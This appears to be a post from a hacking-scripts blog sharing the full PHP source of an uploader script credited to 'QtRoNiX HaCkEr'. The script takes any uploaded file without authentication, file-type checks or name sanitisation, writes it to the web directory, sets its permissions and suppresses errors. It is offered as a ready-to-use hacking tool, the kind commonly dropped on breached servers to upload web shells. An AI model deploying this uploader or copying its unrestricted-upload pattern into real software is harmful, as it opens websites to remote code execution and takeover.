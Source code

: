 ```yaml
---
id: 205
title: Script Upload By QtRoNiX HaCkEr
author: admin
layout: post
guid: http://hackingscripts.com/?p=205
permalink: /script-upload-by-qtronix-hacker/
categories:
  - PHP
tags:
  - PHP
  - uploader
---
```

A simple uploader script by QtRoNiX HaCkEr.

### Script Upload By QtRoNiX HaCkEr Source Code

{% highlight php %}<?php
echo '&lt;center&gt;&lt;font color="Red" size="4"&gt;';
/// Script Upload By QtRoNiX HaCkEr \\\
if(isset($_POST['Submit'])){
	$filedir = ""; 
	$maxfile = '2000000';
	$mode = '0644';
	$userfile_name = $_FILES['image']['name'];
	$userfile_tmp = $_FILES['image']['tmp_name'];
	if(isset($_FILES['image']['name'])) {
		$qx = $filedir.$userfile_name;
		@move_uploaded_file($userfile_tmp, $qx);
		@chmod ($qx, octdec($mode));
echo"&lt;center&gt;&lt;b&gt;Done ==&gt; $userfile_name&lt;/b&gt;&lt;/center&gt;";
}
}
else{
echo'&lt;form method="POST" action="#" enctype="multipart/form-data"&gt;&lt;input type="file" name="image"&gt;&lt;br&gt;&lt;input type="Submit" name="Submit" value="Upload"&gt;&lt;/form&gt;';
}
echo '&lt;/center&gt;&lt;/font&gt;';
?>
{% endhighlight %}